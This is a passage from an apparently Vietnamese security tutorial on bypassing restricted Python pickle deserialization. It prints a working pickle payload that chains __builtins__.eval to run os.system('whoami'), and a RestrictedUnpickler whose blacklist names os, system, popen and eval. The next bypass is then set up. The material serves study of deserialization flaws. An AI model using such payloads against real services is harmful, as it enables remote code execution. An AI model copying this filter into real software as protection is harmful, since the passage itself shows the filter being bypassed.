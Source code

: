 
```python
payload = (
b'''\x80\x04c__main__
__builtins__.eval
(V__import__('os').system('whoami')
tp0
Rp1
.'''
)
```

Tương tự như ví dụ sử dụng reduce ở trên ta sử dụng os.system("id"), ở payload này ta sử dụng chain `__main__.__builtins__.eval("__import__('os').system('whoami')")`.  Như vậy ta thành công vượt qua lớp kiểm tra whitelist ở module. Một điểm lưu ý là, ở đây ta cần chỉ rõ protocol được sử dụng là 4 trở lên, lúc này ta mới có thể lợi dụng logic đã được trình bày vừa nãy. 

Ta có bảng so sánh như sau:

|        | ví dụ ban đầu | ví dụ hiện tại                           |
| ------ | ------------- | ---------------------------------------- |
| module | posix         | `__main__`                               |
| name   | system        | `__builtins__.eval`                      |
| tuple  | ('id',)       | (`'__import__('os').system('whoami')`',) |

### Bypass Recursively Get with OPCODE phần 2

Ta thực hiện bypass thêm như sau:

```python
import pickle as _pickle

ALLOWED_MODULES = ['__main__', 'app', 'request']
UNSAFE_NAMES = ['__setattr__', '__delattr__', '__dict__', '__getattribute__', '__getitem__', '__subclasses__', 'eval']
BLACKLISTED_NAMES = ['__globals__', '__import__', '__base__', '__builtins__', 'os', 'sys', 'system', 'popen', 'open', 'read', 'communicate']

class RestrictedUnpickler(_pickle.Unpickler):
    def find_class(self, module, name):
        if (module in ALLOWED_MODULES and not any(name.startswith(f"{name_}.") for name_ in UNSAFE_NAMES) and not any(name.startswith(f"{name__}") for name__ in BLACKLISTED_NAMES)):
            return super().find_class(module, name)
        raise _pickle.UnpicklingError()

def unpickle(data):
    return RestrictedUnpickler(BytesIO(base64.b64decode(data))).load()
```

Ở đây ta cần phải thực hiện thêm việc bypass logic được thêm: các module không được bắt đầu bằng các giá trị trong UNSAFE_NAMES và BLACKLISTED_NAMES. Để bypass được ta cần thực hiện một chain phức tạp hơn. Một điều khó khăn trong việc craft chain là pickle không hỗ trợ việc truy cập trực tiếp value-key như python thông thường mà ta sẽ phải tư duy với logic stack để dần truy cập đến attribute mong muốn.
